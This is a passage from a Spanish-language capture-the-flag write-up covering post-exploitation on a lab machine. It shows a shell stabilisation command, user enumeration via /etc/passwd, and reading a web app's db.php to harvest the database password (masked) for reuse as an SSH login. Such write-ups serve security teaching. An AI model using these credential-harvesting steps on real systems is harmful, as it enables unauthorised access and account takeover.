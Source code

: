 ```bash
# Paso 5:
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
```
Listo, continuemos.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="linEnum">Enumeración de la Máquina Víctima y Ganando Acceso vía SSH como Usuario scott</h2>

Veamos qué usuarios existen en la máquina víctima:
```bash
bash-5.2$ cat /etc/passwd | grep 'bash'
root:x:0:0:root:/root:/bin/bash
kobe:x:1000:1000:kobe:/home/kobe:/bin/bash
scott:x:1001:1001:Scott,,,:/home/scott:/bin/bash
```
Hay 2 usuarios (sin contar al **Root**).

Encontraremos sus directorios en el directorio `/home`:
```bash
bash-5.2$ ls -la /home
total 16
drwxr-xr-x  4 root  root  4096 Dec 15  2024 .
drwxr-xr-x 22 root  root  4096 Dec 15  2024 ..
drwxr-x---  6 kobe  kobe  4096 Dec 15  2024 kobe
drwxr-x---  3 scott scott 4096 Oct 17 07:41 scott
```
Pero no podremos ver el contenido de sus directorios.

Observa dónde nos encontramos:
```bash
bash-5.2$ pwd
/var/www/html/admin.arka.thl/uploads
```

Si retrocedemos un directorio, encontraremos los mismos archivos que descubrimos en el dominio cuando le aplicamos **Fuzzing**:
```bash
bash-5.2$ cd ..
bash-5.2$ ls
LICENSE  README.md  config.php	css  db.php  img  index.php  js  login.php  logout.php	projects.php  uploads  utils.php  validate.php	vendor
```

Veamos qué contiene ese archivo **db.php**:
```bash
bash-5.2$ cat db.php 
<?php
const DB_HOST = '127.0.0.1';
const DB_USER = 'scott';
const DB_PASSWORD = '***********';
const DB_NAME = 'arka_db';

$mysqli = new mysqli(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);

if (mysqli_error($mysqli)) {
  die('Ocurrio un error al conectarse a la base de datos ' . mysqli_error($mysqli));
}
```
Excelente, tenemos la contraseña del **usuario scott**.
